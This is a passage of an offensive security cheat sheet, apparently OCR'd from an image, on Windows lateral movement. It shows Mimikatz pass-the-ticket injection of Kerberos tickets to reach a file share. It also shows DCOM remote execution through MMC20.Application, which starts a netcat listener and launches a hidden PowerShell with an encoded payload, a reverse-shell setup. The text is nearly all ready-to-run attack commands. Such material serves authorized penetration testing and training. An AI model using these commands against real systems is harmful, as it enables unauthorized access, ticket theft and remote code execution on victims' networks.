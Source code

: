 ```
-a----        9/14/2022   6:24 AM           1505 [0;12bd0]-2-0-40c10000-pete@krbtgt-shellcorp.com.kirbi
```
###### Inject target ticket
`kerberos::ptt [0;12bd0]-0-0-40810000-pete@cifs-files04.kirbi`
###### Confirm ticket injection
`klist` 
###### Attempt to access the resource
`ls \\files04\backup`
### DCOM
Leverages remote DCOM objects to execute arbitrary code on a target system.
###### Requires
- Local Administrator on both attacker and target machine
###### Specify target machine
`$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<target-ip>"))`
###### Start listener
`nc -lnvp 443`
###### Execute payload
`$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e <base64-encoded-payload>","7")
